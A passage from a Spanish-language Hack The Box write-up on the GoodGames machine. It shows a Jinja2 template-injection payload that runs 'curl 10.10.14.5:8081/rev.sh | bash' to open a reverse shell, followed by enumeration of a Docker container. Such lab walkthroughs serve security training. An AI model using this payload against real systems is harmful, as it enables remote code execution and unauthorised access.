 ![](/assets/images/HTB/Goodgames-HackTheBox/ssti2.webp)

Y funciona, puedo ejecutar comandos en el sistema, por lo que creo una reverse shell en bash y ejecuto el siguiente payload.

![](/assets/images/HTB/Goodgames-HackTheBox/shell.webp)

```bash
" {{request.application.__globals__.__builtins__.__import__('os').popen('curl 10.10.14.5:8081/rev.sh | bash').read()}} "
```

Y por fin consigo la shell, y parece que soy usuario root directamente... pero no puedo leer la flag del usuario root.

# Contenedor Docker [#](docker) {#docker}

Por lo que enumerando veo que estoy en un contenedor docker.

```bash
root@3a453ab39d3d:/home/augustus# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.19.0.2  netmask 255.255.0.0  broadcast 172.19.255.255
        ether 02:42:ac:13:00:02  txqueuelen 0  (Ethernet)
        RX packets 3641  bytes 581698 (568.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3010  bytes 4080586 (3.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
```